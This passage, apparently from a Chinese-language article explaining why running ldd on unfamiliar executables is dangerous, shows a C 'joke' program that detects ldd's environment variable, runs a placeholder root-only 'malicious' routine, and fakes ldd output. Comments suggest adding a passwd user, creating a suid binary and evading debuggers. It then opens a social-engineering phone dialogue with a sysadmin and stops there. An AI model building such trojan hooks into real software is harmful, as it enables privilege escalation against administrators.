 ```
This is, of course, a joke program. To make it look more real, you'd have
to bump its size, add some more dependencies, simulate trying to open the
missing library, detect if ran under debugger or strace and do absolutely
nothing suspicious, etc.
*/

void pretend_as_ldd()
{
    printf("\tlinux-gate.so.1 =>  (0xffffe000)\n");
    printf("\tlibat.so.0 => not found\n");
    printf("\tlibc.so.6 => /lib/libc.so.6 (0xb7ec3000)\n");
    printf("\t/lib/ld-linux.so.2 (0xb8017000)\n");
}

void malicious()
{
    if (geteuid() == 0) {
        /* we are root ... */
        printf("poof, all your box are belong to us\n");

        /* silently add a new user to /etc/passwd, */
        /* or create a suid=0 program that you can later execute, */
        /* or do something really nasty */
    }
}

int main(int argc, char **argv)
{
    if (getenv("LD_TRACE_LOADED_OBJECTS")) {
        malicious();
        pretend_as_ldd();
        return 0;
    }

    printf("%s: error while loading shared libraries: libat.so.0: "
           "cannot open shared object file: No such file or directory\n",
           argv[0]);
    return 127;
}
```

 


#### 邪恶的电话


事实上来说，上面的那段程序可能的影响更具破坏性，因为大多数的系统管理员可能并不知道不能使用 `ldd` 去测试那些不熟悉的执行文件。下面是一段很可能会发现的对话，让我们看看我们的程序是如何更快地获得系统管理员的权限的。


系统管理员的电话狂响……


系统管理员： “同志你好，我是系统管理员，有什么可以帮你的？”
